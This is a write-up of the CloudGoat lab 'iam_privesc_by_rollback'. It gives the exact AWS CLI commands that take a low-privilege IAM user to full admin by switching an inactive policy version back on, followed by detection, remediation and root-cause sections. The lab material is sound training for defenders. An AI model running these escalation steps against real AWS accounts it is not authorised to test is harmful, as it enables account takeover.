

# CloudGoat Lab: iam_privesc_by_rollback
### IAM Policy Version Abuse for Privilege Escalation

**Platform:** [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) by Rhino Security Labs  
**Difficulty:** Easy  
**Author:** Justin Steele

---

## Background

I did this lab as a follow-up to cloud_breach_s3. That one was about stealing credentials off an EC2 instance. This one is about what you can do with those credentials once you have them, specifically escalating your own privileges without creating anything new.

The technique is based on something most people don't think about: AWS lets you store up to 5 versions of an IAM policy at the same time, but only one is active. If someone created a high-privilege version at some point and deactivated it without deleting it, it just sits there. And if your user has `iam:SetDefaultPolicyVersion`, you can flip it back on with a single command.

No new resources. No new policies attached. No new role assignments. Just one API call. That's what makes it hard to catch.

---

## Environment

Spun up with:

```bash
cloudgoat create iam_privesc_by_rollback --profile default
```

Starting point: credentials for a low-privilege IAM user named **raynor**. Goal: get to full admin.

---

## Attack Chain



---

## Walkthrough

### Step 1 - Who Am I?

First thing I do with any new credentials is confirm my identity:

```bash
aws sts get-caller-identity --profile raynor
```

Came back as `arn:aws:iam::223367517417:user/raynor-cgidf8mpkdguut`. Plain IAM user, not a role. Now I know what I'm working with and have the username I need for the next steps.

---

### Step 2 - Find Attached Policies

```bash
aws iam list-attached-user-policies --user-name raynor-cgidf8mpkdguut --profile raynor
```

One policy came back: `cg-raynor-policy-cgidf8mpkdguut`. That's my target.

---

### Step 3 - List All Policy Versions

Most people would just look at the current policy and move on. The trick is checking whether multiple versions exist:

```bash
aws iam list-policy-versions \
  --policy-arn arn:aws:iam::223367517417:policy/cg-raynor-policy-cgidf8mpkdguut \
  --profile raynor
```

Five versions came back, v1 through v5. v1 was marked as the default (active). v2 through v5 were all sitting there inactive.

---

### Step 4 - Read Each Version

You can't assume a higher version number means more privilege, so I read each one:

```bash
aws iam get-policy-version \
  --policy-arn arn:aws:iam::223367517417:policy/cg-raynor-policy-cgidf8mpkdguut \
  --version-id v3 \
  --profile raynor
```

| Version | What It Does |
|---------|-------------|
| v1 (active) | Low privilege, limited actions |
| v2 | Deny everything except two specific IP ranges |
| **v3** | **Allow Action:\* on Resource:\* -- full admin** |
| v4 | Restricted |
| v5 | Restricted |

v3 was the one. `Action: *` on `Resource: *` is full admin access to everything in the account.

---

### Step 5 - Roll Back to v3

Raynor had `iam:SetDefaultPolicyVersion`. That's all it takes:

```bash
aws iam set-default-policy-version \
  --policy-arn arn:aws:iam::223367517417:policy/cg-raynor-policy-cgidf8mpkdguut \
  --version-id v3 \
  --profile raynor
```

No output means success. I verified by running `list-policy-versions` again and confirming v3 now showed `IsDefaultVersion: true`.

---

### Step 6 - Verify Full Access

Before the escalation, listing IAM users would have returned access denied. That's an admin-level call:

```bash
aws iam list-users --profile raynor
```

Got back all IAM users in the account. Privilege escalation confirmed.

---

## Why This Attack Works

It's quiet. A detection looking for "new admin policy attached" won't fire because nothing new was attached. The policy was already there, just sitting on an inactive version.

It's fast. Five commands from low-privilege credentials to full admin. Under a minute once you know the technique.

The permission that enables it (`iam:SetDefaultPolicyVersion`) doesn't look dangerous on the surface. It doesn't scream "privilege escalation" during an IAM review. A lot of orgs miss it.

---

## Detection

### CloudTrail Alert on SetDefaultPolicyVersion

This API call gets logged as a management event in CloudTrail, which is on by default. A CloudWatch alarm on it is the easiest win:

```bash
{ $.eventName = "SetDefaultPolicyVersion" }
```

See [`detections/cloudwatch_alarm.sh`](detections/cloudwatch_alarm.sh) for the full setup script.

### IAM Access Analyzer

Would flag v3 immediately once it became active. `Action: *` on `Resource: *` is exactly the kind of finding Access Analyzer surfaces.

### AWS Config

Can continuously evaluate whether any policies have more than one version stored. If a policy has multiple versions and only one should ever exist, that's worth investigating.

---

## Remediation

See [`remediation/fix_policy_versions.sh`](remediation/fix_policy_versions.sh) for a script that automatically cleans up all non-default policy versions across your account.

| Priority | Fix |
|----------|-----|
| Critical | Delete all unused policy versions, not just in this lab but in real accounts too |
| Critical | Remove `iam:SetDefaultPolicyVersion` from any non-admin user or role |
| High | Audit all policies for versions with `Action:*` on `Resource:*` and delete them |
| High | Set a CloudWatch alarm on all `SetDefaultPolicyVersion` API calls |
| Medium | Enable IAM Access Analyzer for continuous policy scanning |

---

## Root Cause

Two small issues that stack into full account compromise:

1. Old policy versions were never deleted after being deactivated
2. `iam:SetDefaultPolicyVersion` was granted to a user who had no reason to need it

Fix either one and the attack fails.

---

## Tools Used

- [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) -- vulnerable-by-design AWS environment
- Terraform -- infrastructure provisioning
- AWS CLI -- enumeration and exploitation

---

*Built on CloudGoat by Rhino Security Labs. Scenario: `iam_privesc_by_rollback`.*
